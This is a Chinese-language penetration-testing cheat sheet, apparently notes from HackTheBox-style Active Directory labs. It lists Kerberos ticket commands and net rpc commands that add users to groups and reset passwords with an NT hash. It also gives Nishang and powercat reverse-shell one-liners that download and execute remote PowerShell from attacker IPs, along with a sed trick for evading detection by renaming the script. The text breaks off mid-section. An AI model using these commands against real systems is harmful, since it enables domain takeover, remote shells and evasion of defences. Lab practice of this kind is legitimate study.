## 票据常规操作

```
摧毁票据：
kdestroy

导入票据：
export KRB5CCNAME=administrator.ccache

```

# net rpc


```
kerberos协议添加用户进组：

net rpc group addmem "NETWORK AUDIT" "m.lovegod" -U "absolute.htb"/"m.lovegod" -S "DC.absolute.htb" --use-kerberos=required

修改密码，以hash的方式 
net rpc password "Tristan.Davies" "newP@ssword2023" -U "search.htb"/"BIR-ADFS-GMSA$"  -S "RESEARCH.search.htb" --pw-nt-hash
```


# Nishang

一个涵盖几乎所有渗透测试流程的脚本：

```
https://github.com/samratashok/nishang/tree/master
```

一个简单介绍：
有点骚东西：
https://www.bilibili.com/read/cv19365761/

反弹shell：

```
下载https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

在最后面，添加：
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.2 -Port 4444

开启http服务：
远程调用执行：
1、powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.223:8000/nishang.ps1')"

2、powershell iex(new-object net.webclient).downloadstring(\"http://10.10.16.5/Invoke-PowerShellTcp.ps1\")

3、IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell


躲避检测：
修改文件名字为tcp.ps1
sed -i "s/PowerShellTcp/tcpps/g" tcp.ps1

Jenkins:

windows:
```